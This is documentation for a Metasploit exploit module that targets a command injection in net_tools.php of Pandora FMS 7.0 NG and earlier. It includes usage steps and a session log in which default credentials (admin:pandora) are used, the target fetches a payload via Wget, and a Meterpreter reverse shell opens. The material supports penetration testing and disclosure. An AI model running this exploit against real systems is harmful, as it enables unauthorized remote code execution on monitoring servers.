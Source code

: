 ## Vulnerable Application

Pandora FMS (for Pandora Flexible Monitoring System) is software for
monitoring computer networks. Pandora FMS allows monitoring in a visual
way the status and performance of several parameters from different
operating systems, servers, applications and hardware systems such
as firewalls, proxies, databases, web servers or routers.

This module exploits a vulnerability found in Pandora FMS 7.0 NG and lower.
The vulnerability exists on the `net_tools.php` component, due to the insecure
usage of the `system()` PHP function.

This module has been tested with [Pandora FMS 7.0 NG](https://sourceforge.net/projects/pandora/files/Pandora%20FMS%207.0NG/Final/Pandora_FMS_7.0_NG_VmWare_ovf.zip/download)

## Verification Steps

Launch metasploit and set the appropriate options:

1.  Start `msfconsole`
2. `use exploit/linux/http/pandora_ping_cmd_exec`
3. `set RHOSTS <rhosts>`
4. `set LHOST <lhost>`
5. `set USERNAME <username>`
6. `set PASSWORD <password>`
7. `exploit`

## Options

  **USERNAME**

  The username for Pandora FMS.

  **PASSWORD**

  The password for Pandora FMS.


## Setup

https://pandorafms.com/docs/index.php?title=Pandora:Documentation_en:Installing

## Scenarios

 Tested Pandora FMS 7.0 NG on CentOS 7.3.1611

```
msf > use exploit/linux/http/pandora_ping_cmd_exec
msf exploit(linux/http/pandora_ping_cmd_exec) > set RHOSTS 192.168.215.128
RHOSTS => 192.168.215.128
msf exploit(linux/http/pandora_ping_cmd_exec) > set RHOSTS 192.168.1.12
RHOSTS => 192.168.1.12
msf exploit(linux/http/pandora_ping_cmd_exec) > set LHOST 192.168.1.5
LHOST => 192.168.1.5
msf exploit(linux/http/pandora_ping_cmd_exec) > set USERNAME admin
USERNAME => admin
msf exploit(linux/http/pandora_ping_cmd_exec) > set PASSWORD pandora
PASSWORD => pandora
msf exploit(linux/http/pandora_ping_cmd_exec) > exploit

[*] Started reverse TCP handler on 192.168.1.5:4444
[*] Exploiting...
[*] Using URL: http://0.0.0.0:8080/ksdtisFA
[*] Local IP: http://192.168.1.5:8080/ksdtisFA
[*] Attempting to authenticate using (admin:pandora)
[+] Successfully authenticated
[*] Attempting to retrieve session cookie
[+] Successfully retrieved session cookie: PHPSESSID=knoo75fs75l00ec74atu8ic3d0; clippy=deleted; clippy=deleted;
[*] Client 192.168.1.12 (Wget/1.14 (linux-gnu)) requested /ksdtisFA
[*] Sending payload to 192.168.1.12 (Wget/1.14 (linux-gnu))
[*] Sending stage (989416 bytes) to 192.168.1.12
[*] Meterpreter session 1 opened (192.168.1.5:4444 -> 192.168.1.12:54784) at 2020-03-09 15:38:25 +0300

[*] Command Stager progress - 131.25% done (147/112 bytes)
[*] Server stopped.

meterpreter >
```
